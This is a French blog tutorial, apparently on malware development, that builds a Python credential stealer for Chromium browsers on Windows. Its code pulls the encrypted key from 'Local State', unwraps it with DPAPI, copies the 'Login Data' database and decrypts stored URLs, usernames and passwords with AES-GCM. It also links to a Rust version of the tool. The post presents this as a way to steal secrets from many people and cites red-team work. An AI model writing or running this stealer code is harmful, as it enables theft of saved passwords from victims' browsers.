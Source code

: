 ```yaml
---
title: "Extraction de secrets des navigateurs basés sur Chromium avec la DPAPI."
description: "Dans cet article nous voyons comment les secrets des navigateurs basés sur Chromium sur les systèmes Windows peuvent être extraits et déchiffrés en utilisant la DPAPI."
createdAt: 05-06-2025
draft: false
tags:
  - maldev
  - browser
  - chromium
  - dpapi
  - aes
author: "Fastiraz"
---
```


## `TL;DR`
Nous utiliserons la DPAPI pour déchiffrer les secrets des navigateurs basés sur Chromium sur les systèmes Windows. Vous pourrez retrouver un script un peu plus peaufiné et écrit en Rust [ici](https://github.com/Fastiraz/chromium-based-browsers-secrets-dump).

## Qu'est-ce que la DPAPI ?
La DPAPI (Data Protection API) est un mécanisme de sécurité utilisé dans les systèmes
Windows pour la gestion des secrets. Elle permet la gestion et la protection des informations sensibles telles que les identifiants d'utilisateur, les mots de passe ou les clés de chiffrement.

## Fonctionnement de la DPAPI
Les deux fonctions principalement utilisées sont :

- `CryptProtectData()`:
	Permet aux applications de Windows de sécuriser des informations comme des mots de passe, des clés de chiffrement, ou d'autres données privées.
- `CryptUnprotectdData()`:
	Permet de déchiffrer des données précédemment protégées par `CryptProtectData()`.

## Un blob, c'est quoi ?
Les deux fonctions précédentes prennent en paramètre des data blob. Un Data Blob sous Windows est un type de champ de données qui permet de stocker des quantités massives de données non structurées de façon optimisée.

## Pourquoi la DPAPI ?
La DPAPI permet de chiffrer les secrets des navigateurs basés sur Chromium et sur les systèmes Windows. Aujourd'hui, la plupart des navigateurs sont basés sur Chromium. Google Chrome, Opera, Brave (le GOAT), Microsoft Edge, Vivaldi et plein d'autres... Les navigateurs Chromium et les systèmes Windows étant les plus répandus, développer un stealer les ciblant permettrait de voler les secrets d'un grand nombre de personnes, ce qui serait particulièrement efficace pour les missions Red Team.

## Le Stealer
Pour démontrer l'utilisation de la DPAPI pour les secrets des navigateurs Chromium, nous allons développer ensemble un stealer en python.
Voici les quatre principales étapes du script :

1. **Récupérer la clé** : Extraire la clé de chiffrement à partir du fichier `Local State` du navigateur au format JSON. Cette clé est utilisée pour déchiffrer les mots de passe stockés. C'est à ce moment que nous utiliserons la DPAPI, pour déchiffrer la clé et l'utiliser.
2. **Accéder à la base de données SQLite** : Localiser et copier la base de données `Login Data` qui contient les secrets chiffrés.
3. **Extraire le texte chiffré** : Pour chaque entrée dans la base de données, extraire la chaîne de caractères chiffrée qui contient le mot de passe.
4. **Déchiffrer le mot de passe** : Utiliser la clé déchiffrée et l'algorithme AES pour déchiffrer le mot de passe.

### La clé
Les clés étant chiffrées en utilisant un algorithme de chiffrement symétrique, AES, nous allons développer une fonction qui permet de récupérer cette clé pour déchiffrer les secrets. La clé est stockée en base64 dans l'objet `os_crypt` et sous la clé `encrypted_key`. La clé, une fois décodée, possède un suffixe (`DPAPI`) qu'il faut retirer.

```python
CHROME_PATH_LOCAL_STATE = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data\Local State" % (os.environ['USERPROFILE']))

def get_secret_key():
    try:
        with open(CHROME_PATH_LOCAL_STATE, "r", encoding='utf-8') as f:
            local_state = f.read()
            local_state = json.loads(local_state)
        secret_key = base64.b64decode(local_state["os_crypt"]["encrypted_key"])
        secret_key = secret_key[5:]
        secret_key = win32crypt.CryptUnprotectData(secret_key, None, None, None, 0)[1]
        return secret_key
    except Exception as e:
        print("%s" % str(e))
        print("[ERR] Chrome secretkey cannot be found")
        return None
```

### Extraction des secrets de la base de données SQLite
La prochaine étape est de se connecter à la base de données SQLite et de récupérer les informations souhaitées. La base de données est le fichier `Login Data` que nous copierons dans le fichier `Loginvault.db`.
Pour récupérer les secrets souhaités nous utiliserons la requête suivante:
`SELECT action_url, username_value, password_value FROM logins`

```python
CHROME_PATH = os.path.normpath(r"%s\AppData\Local\Google\Chrome\User Data"%(os.environ['USERPROFILE']))

def get_db_connection(chrome_path_login_db):
    try:
        shutil.copy2(chrome_path_login_db, "Loginvault.db") 
        return sqlite3.connect("Loginvault.db")
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Chrome database cannot be found")
        return None

if(secret_key and conn):
	cursor = conn.cursor()
	cursor.execute("SELECT action_url, username_value, password_value FROM logins")
	for index,login in enumerate(cursor.fetchall()):
		url = login[0]
		username = login[1]
		ciphertext = login[2]
		decrypted_password = decrypt_password(ciphertext, secret_key)
```

### Déchiffrer les secrets
Une fois le mot de passe chiffré récupéré, nous allons le déchiffrer en utilisant l'algorithme AES. Pour ça, nous utiliserons la fonction `decrypt_password` prenant en paramètre le mot de passe chiffré (`ciphertext`) et la clé (`secret_key`) nécessaire pour le déchiffrement. On commence par extraire le vecteur d'initialisation (`initialisation_vector`) et le mot de passe chiffré (`encrypted_password`) à partir du texte chiffré. Le vecteur d'initialisation est obligatoire pour le mode GCM. La fonction `generate_cipher` avec la clé et le vecteur d'initialisation en paramètre, permet de créer un nouvel objet de chiffrement AES configuré en mode GCM. Cet objet est utilisé par la fonction `decrypt_payload` pour déchiffrer le mot de passe.

```python
def decrypt_payload(cipher, payload):
    return cipher.decrypt(payload)

def generate_cipher(aes_key, iv):
    return AES.new(aes_key, AES.MODE_GCM, iv)

def decrypt_password(ciphertext, secret_key) -> str:
    try:
        initialisation_vector = ciphertext[3:15]
        encrypted_password = ciphertext[15:-16]
        cipher = generate_cipher(secret_key, initialisation_vector)
        decrypted_pass = decrypt_payload(cipher, encrypted_password)
        decrypted_pass = decrypted_pass.decode()  
        return decrypted_pass
    except Exception as e:
        print("%s"%str(e))
        print("[ERR] Unable to decrypt, Chrome version <80 not supported. Please check.")
        return ""
```
